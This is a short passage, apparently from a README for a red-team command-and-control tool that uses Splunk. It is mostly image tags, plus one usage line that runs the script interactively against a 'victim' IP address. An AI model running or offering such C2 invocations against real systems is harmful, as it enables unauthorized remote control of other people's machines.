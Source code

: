     <img src="images/single-command-splunk.png"  width="900" height="400">
</p>

- Go a bit interactive (Pretty slow. Not interactive in the traditional sense This is useful if your team will dev future capabilities): `python3 splunk-c2.py --victim 198.168.1.5 --interactive`

<p align="center">
    <img src="images/splunk-c2.png"  width="800" height="400">
</p>

<p align="center">